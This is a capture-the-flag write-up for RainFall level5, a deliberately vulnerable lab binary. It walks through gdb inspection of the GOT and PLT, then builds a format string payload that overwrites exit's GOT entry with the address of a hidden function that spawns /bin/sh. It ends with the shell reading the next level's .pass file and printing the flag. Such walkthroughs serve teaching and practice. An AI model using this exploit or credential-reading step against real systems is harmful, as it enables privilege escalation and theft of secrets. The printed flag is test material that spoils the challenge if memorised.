 level5
======

*	We spawn with a [level5](src/level5) executable
	```console
	level5@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
	level5@RainFall:~$ ./level5 


	level5@RainFall:~$ ./level5 
	qweqweqwe
	qweqweqwe
	```
*	We have 3 functions ([code here](src/level5.c)):
	-	`main` calling `n`
	-	`n` creates a 520 bytes variable, `fgets` on it and then `printf` it
	-	`o` calls `/bin/sh``
*	The trick here is that `o` is never called but its our way out. One way would be the change the function the pointer of `exit()` points to, to make it point towards `o`
*	There is a section inside of programs that is called the [Global Offset Table (GOT)](https://en.wikipedia.org/wiki/Global_Offset_Table). It holds addresses of functions that are dynamically linked unless a program is marked full RELRO. Most programs don't include every function they use to reduce binary size. Instead, common functions are "linked" into the program so they can be saved once on disk and reused by every program. This [website](https://ctf101.org/binary-exploitation/what-is-the-got/) explains it well. It is important for us to understand this to be able to retrieve the real address pointing to `exit()`. 
*	Let's try to find it in `gdb` :
	```gdb
	(gdb) info files
		[...]
		0x08049814 - 0x08049818 is .got
		0x08049818 - 0x08049840 is .got.plt
	```
	Here we get the address were we can find the `got` and the `Procedure Linkage Table (PLT)` which is a function that allow the program to understand which name of function is linked to what.
	```gdb
	(gdb) info functions
		[...]
		0x08048334  _init
		0x08048380  printf
		0x08048380  printf@plt
		0x08048390  _exit
		0x08048390  _exit@plt
		0x080483a0  fgets
		0x080483a0  fgets@plt
		0x080483b0  system
		0x080483b0  system@plt
	```
	Here we can see they really are treated by `plt`
	```gdb
	(gdb) disas n
		[...]
		0x080484ff <+61>:    call   0x80483d0 <exit@plt>
	```
	Same thing when we look at the function, let's take a look at this address
	```gdb
	(gdb) disas 0x80483d0
	Dump of assembler code for function exit@plt:
		0x080483d0 <+0>:     jmp    *0x8049838
		0x080483d6 <+6>:     push   $0x28
		0x080483db <+11>:    jmp    0x8048370
	```
	This is how every function is treated in the `plt`
	```gdb
	(gdb) x 0x8049838
		0x8049838 <exit@got.plt>:       0x080483d6
	```
	This is a value so we have to use `x` and not `disas`. And now we have the certitude that the `jmp` was poiting to the real address of exit -> `0x8049838`
*	This was quite long but I did my best to make it short. Now let's retrieve the address of `o()`:
	```gdb
	(gdb) x o
		0x80484a4 <o>:  0x83e58955
	```
	We get this `0x80484a4`
*	There is something else to know. Here we are working with a format string attack and not a buffer overflow as we did before. The difference is that we can't really "write" address, only thing we can do is "add" byte value with `%d`, so to access that address, we will need to add as much byte as necessary AND in decimal since the flag only takes decimals.
*	Index can be find at the `4th` position
	```console
	level5@RainFall:~$ ./level5 
	%x %x %x %x %x %x %x
	200 b7fd1ac0 b7ff37d0 25207825 78252078 20782520 25207825
	```
	We don't really need to add random char to find it when we know ascii of `%x `
*	Let's finally build the payload:
	-	little endian of `exit()` -> `\x38\x98\x04\x08`
	-	value of the address of `o()` : `0x80484a4(HEX)` -> `134513828(DEC)`
	-	index of `%4$n`
	```console
	level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5
	level5@RainFall:~$ cat /tmp/payload5 - | ./level5
	[...]
	  512
	whoami
	level6
	cat /home/user/level6/.pass
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
	```